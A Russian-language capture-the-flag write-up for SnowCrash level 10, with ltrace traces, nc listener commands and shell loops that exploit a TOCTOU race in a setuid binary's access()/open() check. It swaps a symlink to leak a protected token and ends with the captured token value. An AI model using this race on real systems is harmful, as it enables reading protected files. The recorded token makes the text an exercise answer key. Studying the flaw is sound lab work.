 на левеле 10 у нас имеется
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 ./
d--x--x--x  1 root    users     340 Aug 30  2015 ../
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout*
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10*
-r-x------  1 level10 level10   675 Apr  3  2012 .profile*
-rw-------  1 flag10  flag10     26 Mar  5  2016 token

прокидываем по приципы как из левела 8 сначала балванку чтобы посмотреть ltrace
echo "lol" > /tmp/level10/lol

level10@SnowCrash:~$ ltrace ./level10 /tmp/level10/lol
__libc_start_main(0x80486d4, 2, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
) = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++

выдает ошибку поскольку должен приниматься 3й аргумент. вариантов особо не много используем локалхост

level10@SnowCrash:~$ ltrace ./level10 /tmp/level10/lol 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/level10/lol", 4)                              = 0
printf("Connecting to %s:6969 .. ", "127.0.0.1")           = 32
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                                         = 0
socket(2, 1, 0)                                            = 3
inet_addr("127.0.0.1")                                     = 0x0100007f
htons(6969, 1, 0, 0, 0)                                    = 14619
connect(3, 0xbffff70c, 16, 0, 0)                           = -1
printf("Unable to connect to host %s\n", "127.0.0.1"Unable to connect to host 127.0.0.1
)      = 36
exit(1 <unfinished ...>
+++ exited (status 1) +++

указывается порт 6969

пробуем подключиться к данному порту
nc -l 6969

подключение есть
level10@SnowCrash:~$ ltrace ./level10 /tmp/level10/lol 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("/tmp/level10/lol", 4)                              = 0
printf("Connecting to %s:6969 .. ", "127.0.0.1")           = 32
fflush(0xb7fd1a20Connecting to 127.0.0.1:6969 .. )                                         = 0
socket(2, 1, 0)                                            = 3
inet_addr("127.0.0.1")                                     = 0x0100007f
htons(6969, 1, 0, 0, 0)                                    = 14619
connect(3, 0xbffff70c, 16, 0, 0)                           = 0
write(3, ".*( )*.\n", 8)                                   = 8
printf("Connected!\nSending file .. "Connected!
)                     = 27
fflush(0xb7fd1a20Sending file .. )                                         = 0
open("/tmp/level10/lol", 0, 010)                           = 4
read(4, "lol\n", 4096)                                     = 4
write(3, "lol\n", 4)                                       = 4
puts("wrote file!"wrote file!
)                                        = 12
+++ exited (status 12) +++

на сервере отобразилось 
level10@SnowCrash:~$ nc -l 6969
.*( )*.
lol

чтобы взломать токен на основе прав доступа используем уязвимость функции access
man access
Warning:  Using  access() to check if a user is authorized to, for example, open a file
       before actually doing so using open(2) creates a security hole, because the user  might
       exploit the short time interval between checking and opening the file to manipulate it.
       For this reason, the use of this system call should be avoided.  (In the  example  just
       described,  a  safer alternative would be to temporarily switch the process's effective
       user ID to the real ID and then call open(2).)

чтобы получить токен нам нужно перегрузить функцию access пока она будет перегружена появится короткий интервал времени между проверкой и открытием файла для манипулирования им.

используем nc -lk 6969 с флагами -lk
-l: Это означает, что nc будет работать в режиме прослушивания (listen), т.е. ожидает входящие соединения на указанном порту.
-k: Этот параметр говорит nc продолжать слушать и после того, как установлено одно соединение.

наша задача запустить 2 процесса с нашим бинарников, один на фейк токен, второй на реальный.

echo "asd" > /tmp/level10/faketoken

подмена ключа
while true; do ln -fs /home/user/level10/token /tmp/level10/lol; ln -sf /tmp/level10/faketoken /tmp/level10/lol; done

памп бинарника
while true; do /home/user/level10/level10 /tmp/level10/lol 127.0.0.1; done

как это работает
Ты пытаешься эксплуатировать гонку условий (race condition) при доступе к файлу, чтобы бинарный файл /home/user/level10/level10 отправил вместо поддельного токена настоящий, который находится в /home/user/level10/token.
1. Как работает бинарный файл level10
Из ltrace видно, что программа:
Проверяет доступ к переданному файлу (access("/tmp/level10/faketoken", 4))
Выводит сообщение о подключении
Создает TCP-сокет и подключается к 127.0.0.1:6969
Читает данные из переданного файла (read(4, "asd\n", 4096))
Отправляет прочитанное содержимое в сокет (write(3, "asd\n", 4))
Завершается.

То есть программа берет файл, читает его и отправляет содержимое по сети.

Создаем файл с поддельным содержимым.
цикл бесконечно меняет символическую ссылку /tmp/level10/lol:
В один момент /tmp/level10/lol указывает на /home/user/level10/token (который содержит настоящий токен)
В следующий момент /tmp/level10/lol указывает на /tmp/level10/faketoken
Задача — поймать момент, когда программа level10 делает open("/tmp/level10/lol", 0, 010) (открывает файл), чтобы в этот момент lol указывал на token.

проще говоря если запустить ссылку с токеном мы все равно получим реджект. когда мы создаем обычный файл с текстом, то он его читает. задача цикла поймать аксесс так, чтобы когда он читал лол как фейктокен, в него прилетел бы реальный токен


Из ltrace видно:
access("/tmp/level10/faketoken", 4)   = 0
open("/tmp/level10/faketoken", 0, 010) = 4

access() проверяет, есть ли у пользователя чтение (R_OK = 4) на файл
open() открывает этот же файл
Но между этими вызовами есть зазор во времени. Именно сюда мы вставляем атаку.

Такая атака называется TOCTOU (Time of Check to Time of Use) — "от момента проверки до момента использования".

woupa2yuojeeaaed06riuj63c